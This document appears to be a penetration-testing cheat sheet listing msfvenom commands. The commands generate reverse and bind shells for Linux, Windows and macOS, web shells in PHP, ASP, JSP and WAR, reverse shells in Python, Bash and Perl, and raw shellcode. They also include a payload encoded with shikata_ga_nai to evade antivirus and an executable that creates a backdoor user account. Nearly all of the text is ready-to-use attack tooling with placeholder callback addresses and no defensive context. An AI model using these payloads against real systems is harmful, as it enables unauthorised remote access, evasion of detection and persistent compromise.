

List payloads
msfvenom -l
Binaries Payloads
Linux Meterpreter Reverse Shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf
Linux Bind Meterpreter Shell
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf
Linux Bind Shell
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
Windows Meterpreter Reverse TCP Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
Windows Reverse TCP Shell
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
Windows Encoded Meterpreter Windows Reverse Shell
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
Mac Reverse Shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho
Mac Bind Shell
msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho
Web Payloads
PHP Meterpreter Reverse TCP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php
ASP Meterpreter Reverse TCP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
JSP Java Meterpreter Reverse TCP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
Scripting Payloads
Python Reverse Shell
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
Bash Unix Reverse Shell
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
Perl Unix Reverse shell
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
Shellcode
Windows Meterpreter Reverse TCP Shellcode
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
Linux Meterpreter Reverse TCP Shellcode
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
Mac Reverse TCP Shellcode
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
Create User
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
